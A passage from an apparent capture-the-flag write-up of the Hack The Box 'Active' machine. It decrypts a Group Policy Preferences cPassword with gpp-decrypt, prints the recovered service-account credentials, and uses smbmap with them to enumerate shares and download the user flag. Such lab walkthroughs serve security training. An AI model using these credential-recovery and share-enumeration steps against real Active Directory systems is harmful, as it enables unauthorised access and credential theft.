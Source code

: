 Viewing the contents of the file, we do indeed see the cPassword for SVC_TGS

![Untitled](Active%2072aced6f66d14ba79f9e46ab3a3d4bb4/Untitled%208.png)

# Initial Foothold

To crack this password, we can simply use gpp-decrypt that automatically comes with Kali:

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

![Untitled](Active%2072aced6f66d14ba79f9e46ab3a3d4bb4/Untitled%209.png)

Now that we have a valid set of credentials, SVC_TGS:GPPstillStandingStrong2k18, we can see the access we currently have with these credentials again:

```bash
smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H $IP
```

![Untitled](Active%2072aced6f66d14ba79f9e46ab3a3d4bb4/Untitled%2010.png)

# User Flag

This gives us access to the Users share, and we can use smbmap to find and download our user flag:

```bash
smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -R Users -H active.htb --depth 10 -A "user.txt" -q
```
